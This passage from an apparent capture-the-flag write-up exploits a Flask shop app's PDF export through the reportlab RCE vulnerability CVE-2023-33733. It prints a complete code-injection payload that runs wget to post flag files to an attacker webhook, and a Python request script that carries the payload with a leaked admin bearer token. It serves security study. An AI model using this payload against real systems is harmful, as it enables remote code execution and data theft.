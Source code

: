 We just need to add in the header ``Authorization: Bearer <admin's_access_token>`` and we'll be logged in as admin.

Now the question comes why did we leak the admin's token in the first place. The answer is that we needed access to the endpoint ``/orders/html`` which takes a ``color`` post parameter and it'll generate a pdf containing all the orders that you have made, as shown in the code below.

```py
@web.route("/orders/html", methods = ["POST"])
@admin_middleware
def orders_html():
  color = request.form.get("color")

  if not color:
    return response("No color"), 400

  db_session = Database()
  orders = db_session.get_all_orders()
  
  if not orders:
    return response("No orders placed"), 200

  orders_template = render_template("orders.html", color=color)
  
  html2pdf = HTML2PDF()
  pdf = html2pdf.convert(orders_template, orders)
  
  pdf.seek(0)
  return send_file(pdf, as_attachment=True, download_name="orders.pdf", mimetype="application/pdf")
```

For this functionality they are using ``reportlab==3.6.12`` which has an RCE vulnerability as mentioned in this [CVE](https://github.com/c53elyas/CVE-2023-33733)

There are a lot of POC's out there to exploit this, one of the payload is this

```
color = [[[getattr(pow, Word('__globals__'))['os'].system('wget <your_webhook> --post-file /flag*') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'
```

So sending a POST request to ``/orders/html`` with color set to the above payload would get us the flag in our webhook.

```py
import requests

url = "http://127.0.0.1:3000/backend/orders/html"

payload = "[[[getattr(pow, Word('__globals__'))['os'].system('wget <your_webhook> --post-file /flag*') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"

headers = {
    "Authorization": "Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJwaGFudG9tZmVlZC1hdXRoLXNlcnZlciIsImV4cCI6MTcwMjY1ODQ3OSwidXNlcl9pZCI6MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl90eXBlIjoiYWRtaW5pc3RyYXRvciJ9.etEj1fXSpMGQIT5LVHGHKmafqE7xFQw5P1uaQQnZUufU0zRANPH0WN7mLlUGjxkehInARAGrJvMxOg4uVPbRY3jR4hwj64xuNtqbou0S21Q9nmnXcAOlxBRELNlbcRse2zIy-JhwV1I-HZOelAXpO7xFPoYlCcGfovvf5P59DZgno29iRk6_dKipEXzRnRk0_RqnloP6ubvj8WYvtnNRqJYjtNXQ1HUTgPB_ump0wlWhxxvv2xnyxsRwT1XEYziV-F2yu_hHkTqvVAiNrpIHzoperSii9Y42Zv9ngs8sXGtCB-zevQ42csCfmi5CVRhs8ooZrgM1FiBl2JA5NHrFww",
    "Connection": "close",
    "Content-Type": "application/x-www-form-urlencoded",
}
```